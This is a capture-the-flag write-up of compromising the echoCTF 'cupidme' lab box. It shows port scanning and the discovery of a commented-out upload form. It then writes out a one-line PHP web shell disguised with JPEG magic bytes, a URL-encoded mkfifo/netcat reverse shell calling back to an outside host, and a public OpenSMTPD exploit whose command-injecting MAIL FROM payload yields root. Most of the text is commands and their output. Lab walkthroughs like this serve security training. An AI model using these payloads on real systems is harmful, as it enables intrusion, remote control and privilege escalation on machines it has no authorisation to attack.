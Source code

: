 ```yaml
---
layout: page
title: cupidme
---
```



[CVE-2019-14813](https://echoctf.red/target/33)

![](/assets/images/cupidme.png)

TEE HEE HEE! Cupid, is an imaginary character. However, Cupid is not the only thing that is imaginary on this system (the box security is equally imaginary)...

Tickle cupid the right way and you'll be surprised.

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 02:20 EDT
Nmap scan report for 10.0.30.187
Host is up (0.080s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to Cupid's homepage

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.75 seconds
```
### Enumartion - WEB

TEE HEE HEE!
Hello! this is Cupid-Me and <b> this is the page where I upload my awesome pictures</b> for everyone to admire...
What can I say, lenses love me.

but where is the upload form?  

checking the source code and i found this:

<b><!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>--> </b>

unmarked it, and i got the upload form:


![](/assets/images/upload_cupid.png)


### RCE

we can upload files, but its impossiable to this check by hand, so  i used burp for trying upload files.

and then i faced new problem :

```
    [0] => Mimetype not allowed, please upload an image/jpeg file.
    [1] => The maximum file size supported is 39 bytes
```
how to bypass it? 

i have sucees to minimize the file size, but still facing th mimtype.

after some reading about bypass php restrication, i found file signatures.


[magic_byte](https://en.wikipedia.org/wiki/List_of_file_signature)

```
echo '\xff\xd8<?=`{$_GET["cmd"]}`;' > exec.php

$ file shell.php
shell.php: JPEG image data

 ```



after uploading the file i got - 

```
Success. file uploaded at images/shell.php
```

let try to get RCE:

http://10.0.40.0/images/shell.php?cmd=id 

��uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Get Shell 

http://10.0.40.0/images/exec.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.0.10%204444%20%3E%2Ftmp%2Ff

*url encode 

and i got shell as www-data

www-data@cupidme:~/html/images$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data

### Privilege escalation
```
www-data@cupidme:~/html/images$ ss -ant
ss -ant
State        Recv-Q   Send-Q     Local Address:Port        Peer Address:Port    
LISTEN       0        128           127.0.0.11:36769            0.0.0.0:*       
LISTEN       0        128            127.0.0.1:9001             0.0.0.0:*       
LISTEN       0        128              0.0.0.0:80               0.0.0.0:*       
LISTEN       0        5              127.0.0.1:25               0.0.0.0:*       
TIME-WAIT    0        0              127.0.0.1:49074          127.0.0.1:80      
CLOSE-WAIT   9        0              127.0.0.1:9001           127.0.0.1:41482   
TIME-WAIT    0        0              127.0.0.1:9001           127.0.0.1:41504   
ESTAB        0        8              10.0.40.0:59836         10.10.0.10:4444    
TIME-WAIT    0        0              127.0.0.1:41506          127.0.0.1:9001    
FIN-WAIT-2   0        0              10.0.40.0:80            10.10.0.10:51002   
www-data@cupidme:~/html/images$ ps -aux | grep root
ps -aux | grep root
root         1  0.0  0.0   3736  2836 pts/0    Ss+  11:17   0:00 /bin/bash /entrypoint.sh tail -f /var/log/nginx/error.log /var/log/nginx/access.log
root        17  0.0  0.2  80020 10036 ?        Ss   11:17   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
root        28  0.0  0.0   5512  2072 ?        Ss   11:17   0:00 /usr/sbin/cron
root        60  0.0  0.0  69736  1728 ?        Ss   11:17   0:00 nginx: master process /usr/sbin/nginx
root        81  0.0  0.0  12324  3180 ?        Ss   11:17   0:00 /usr/local/sbin/smtpd
root        83  0.0  0.0   2328   752 pts/0    S+   11:17   0:00 tail -f /var/log/nginx/error.log /var/log/nginx/access.log
www-data  2522  0.0  0.0   3084   828 ?        S    13:16   0:00 grep root
www-data@cupidme:~/html/images$ 

```

i noticed for port 25 in listen state, so i checked it:
<b>220 cupidme.echocity-f.com ESMTP OpenSMTPD</b>

searching for online exploit, and found this one  [OpenSMTPD3](https://www.exploit-db.com/exploits/48051)

lets try it:

 perl raptor_opensmtpd.pl LPE
 
 and we goot root - 
 
 
perl raptor_opensmtpd.pl LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cupidme.echocity-f.com ESMTP OpenSMTPD
> HELO fnord
< 250 cupidme.echocity-f.com Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 59a219f1 Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 Jun  6 09:18 /usr/local/bin/pwned
#


#
#

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root

